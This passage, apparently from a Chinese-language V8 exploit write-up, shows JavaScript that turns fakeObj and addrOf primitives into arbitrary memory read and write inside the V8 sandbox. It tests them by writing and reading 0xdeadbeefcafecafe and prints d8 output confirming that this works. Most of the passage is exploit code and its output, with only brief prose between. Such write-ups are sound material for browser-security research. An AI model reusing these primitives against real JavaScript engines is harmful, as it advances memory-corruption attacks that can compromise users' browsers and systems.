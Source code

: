 ```

// Build the arbitrary read-write
  p.arbObj = p.fakeObj(fakeobj_addr);
// % DebugPrint(p.arbObj);

  p.arbRead = (addr) => {
    return floatToUint64(p.arbObj[Math.trunc(addr / 8) - 1]);
  }
  p.arbWrite = (addr, value) => {
    p.arbObj[Math.trunc(addr / 8) - 1] = uint64ToFloat(BigInt(value));
  }

returntrue;
}
```

  
  
创建一个PACKED_DOUBLE_ELEMENTS大小为0x78000000且从沙盒偏移量 0 开始的数组，足以满足大多数用例的需求。让我们进行一个快速测试，验证新的原语是否正常工作：  
  

```
let spray_addr = p.addrOf(p.spray);
print(`spray_addr = 0x${spray_addr.toString(16)}`);

for (let i = 0; i < p.spray.length; i++) {
  p.spray[i] = 0;
}

print(&#34;Call arbWrite(spray_addr + 0x100, 0xdeadbeefcafecafen)&#34;);
p.arbWrite(spray_addr + 0x100, 0xdeadbeefcafecafen);

let value_read = p.arbRead(spray_addr + 0x100);
print(`arbRead(spray_addr + 0x100) = 0x${value_read.toString(16)}`);

for (let i = 0; i < 100; i++) {
  const value = floatToUint64(p.spray[i]);
if (value != 0) {
    print(`spray[${i}] = ${value.toString(16)}`)
  }
}
```

  
  
输出表明任意读写操作成功：  
  

```
$ out/x64.release/d8 --allow-natives-syntax --expose-gc poc.js

Found the hash 0xaac!
The object at index962has the hash 0xaac
spray2_addr = 0x14b1f0
spray2_length_addr = 0x14b204
spray2.length = 0x20000
spray3_index = 0x10167
addrOf() and fakeObj() ready
fakeobj_addr = 0x14b2f1
spray_addr = 0x1488c0
Call arbWrite(spray_addr + 0x100, 0xdeadbeefcafecafen)
arbRead(spray_addr + 0x100) = 0xdeadbeefcafecafe
spray[29] = deadbeefcafecafe
```
